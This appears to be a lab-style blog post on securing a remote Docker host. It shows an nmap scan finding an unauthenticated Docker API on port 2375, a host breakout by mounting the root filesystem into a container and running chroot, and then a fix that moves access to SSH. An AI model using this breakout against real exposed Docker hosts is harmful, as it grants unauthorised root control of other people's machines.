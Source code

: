 ```yaml
---
layout: post
title: 'Securely Accessing Remote Docker Host'
date: '2021-08-16'
description: 'The Docker TCP socket by default doesnt support any authentication. and, if the Docker socket is exposed on an external interface, anyone can connect to it and issue docker commands. This can even lead to host takeover if the Docker daemon is running as root.'
coverimage: Securely_Accessing_Remote_Docker_Host_HjjWMVv.jpg
tags: docker
published: true
posttype: article
categories: article
---
```

Docker is running out box without the socket set
```
evilsaint@marvel.lab:~# docker ps
Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?

evilsaint@marvel.lab:~# docker images
Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?
```


Nmap Scan showing exposed Docker API port. 
```
nmap -sSV -p- 192.190.96.3
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 00:34 IST
Nmap scan report for docker-host (192.190.96.3)
Host is up (0.000015s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
2375/tcp open  docker     Docker 19.03.1 (API 1.40)
2376/tcp open  tcpwrapped
MAC Address: 02:42:C0:BE:60:03 (Unknown)
Service Info: OSs: Linux, linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.11 seconds
````


Define the DOCKER_HOST environment variable to point to this remote TCP socket.
```
export DOCKER_HOST=192.190.96.3:2375
```

Now we can mount the image to the host volume and do a host breakout if permissions are in place
```
evilsaint@marvel.lab:~# docker run -it -v /:/host ubuntu:18.04 bash
root@6a01ea2ace07:/# chroot /host
#
```

## How can we secure this 

I will SSH into the remote host to perform the fix 

Let us kill the docker
```
ps -ef | grep docker
```

```
kill <pid>
```

Restart the docker service
```
service docker start
```

Now we export the docker host to be accessible over SSH
```
root@localhost:~# export DOCKER_HOST=ssh://root@192.190.96.3
```